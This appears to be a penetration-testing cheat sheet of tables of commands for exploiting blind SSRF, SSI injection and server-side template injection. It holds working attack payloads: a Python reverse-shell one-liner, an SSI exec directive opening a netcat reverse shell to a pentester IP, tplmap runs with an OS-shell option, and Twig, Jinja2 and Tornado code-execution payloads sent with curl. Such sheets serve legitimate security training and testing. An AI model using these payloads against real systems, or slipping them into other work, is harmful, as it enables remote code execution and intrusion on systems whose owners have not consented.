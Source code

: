 
## Blind SSRF Exploitation Example

| **Command**   | **Description**   |
| --------------|-------------------|
| `nc -lvnp 9090` | Starting a netcat listener | 
| `echo """<B64 encoded response>""" \| base64 -d` | Decoding the base64 encoded response | 
| `export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'` | Reverse shell payload (to be URL encoaded twice) |


## SSI Injection Exploitation Example

| **SSI Directive Payload**   | **Description**   |
| --------------|-------------------|
| `<!--#echo var="DATE_LOCAL" -->` | Date | 
| `<!--#printenv -->` | All variables | 
| `<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo\|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` | Reverse Shell | 


## SSTI Exploitation Example 1

| **Command**   | **Description**   |
| --------------|-------------------|
| `git clone https://github.com/epinna/tplmap.git` | Cloning the tplmap repoistory |
| `cd tplmap` | Navigating to the new directory| 
| `pip install virtualenv` | Installing the virtual environment with pip |
| `virtualenv -p python2 venv` | Creating a virtual environment named venv with python2 |
| `source venv/bin/activate` | Activating a Python virtual environment, configuring the shell to use the virtual environment's Python interpreter |
| `pip install -r requirements.txt` | Installing dependencies |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john` | Running tplmap against the target | 
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell` | Running tplmap with the os-shell option |
| `{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}` | Twig RCE payload |


## SSTI Exploitation Example 2

| **Command**   | **Description**   |
| --------------|-------------------|
| `curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Spring payload) |
| `curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Twig payload) | 
| `curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Jinja2 basic injection) |
| `curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Jinja2 dump all classes payload) |
| `curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam` | Interacting with the remote target (Tornado payload) |
| `./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah` | Automating the exploitation process with tplmap|
